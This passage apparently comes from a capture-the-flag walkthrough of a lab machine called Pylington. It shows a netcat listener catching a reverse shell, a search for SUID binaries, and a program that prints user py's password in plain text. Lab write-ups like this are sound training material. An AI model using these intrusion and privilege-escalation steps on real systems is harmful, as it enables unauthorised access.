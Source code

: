 **Listener**

```sh
nc -lvp 4444
```

#### It works | we are in

![image]( /assets/img/pylington/8.PNG)

## Privileges Escalation | User py

Find SUID permissions

```sh
[http@archlinux ~]$ find / -perm -u=s -type f 2>/dev/null
...
/home/py/typing
...
[http@archlinux ~]$
```

Let's check the `/home/py/typing`

```sh
[http@archlinux py]$ /home/py/typing
/home/py/typing
Let's play a game! If you can type the sentence below, then I'll tell you my password.

the quick brown fox jumps over the lazy dog
the quick brown fox jumps over the lazy dog # I typed the same sentence and it gave me the password
the quick brown fox jumps over the lazy dog
54ezhCGaJV
```
